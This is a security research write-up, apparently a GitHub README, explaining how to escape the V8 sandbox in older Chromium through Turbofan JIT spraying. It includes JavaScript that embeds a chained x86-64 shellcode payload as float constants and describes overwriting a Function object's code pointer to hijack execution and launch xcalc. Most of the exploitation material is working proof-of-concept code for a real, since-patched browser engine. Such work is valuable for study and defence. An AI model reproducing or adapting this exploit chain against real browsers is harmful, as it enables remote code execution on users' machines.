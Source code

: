 # Escaping V8 Sandbox via Turbofan JIT Spraying: Part 1 (Chromium < 100.0.4896.60)

In this post, I will explain how to escape V8 sandbox via Turbofan JIT Spraying to get RCE, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW primitives.

## Setup

- Ubuntu 20.04.6 LTS (WSL)
- [9d0222424e6adf89663949d9e60e5ffe77d1cc83](https://chromium.googlesource.com/v8/v8/+/9d0222424e6adf89663949d9e60e5ffe77d1cc83) (Jan 24th, 2022)

Save [`sandbox.diff`](./sandbox.diff) and [`setup.zsh`](./setup.zsh) in your working directory and run `setup.zsh`.

`sandbox.diff` is the same patch with [[sandbox\] Add new Memory Corruption API](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) (May 20th, 2022). Applying this patch, we can implement limited exploitation primitives using memory corruption API.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L20) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/1.png)

![](img/2.png)

![](img/3.png)

`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region. If we can move `rip` to the address of this number, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/4.png)

```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/5.png)

If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

### Hijack execution flow

When a Turbofan-compiled function is called, we can see following execution flow:

![](img/6.png)

![](img/7.png)

It first stores 4-byte value stored in `rdi + 0x17` in `rcx`, which is address of `code` of the function.

![](img/8.png)

![](img/9.png)

After that, it adds `0x3f` to `rcx` and jump to that address, in which compiled code of the function is stored.

`Function` object is inside of V8 sandbox, so we can overwrite the address of `code` stored in `Function` object using sandboxed AAW primitive, then control `rip`. Overwriting this with address of shellcode, we can execute it by simply calling the function.

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/10.png)

## Patch

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24th, 2022)
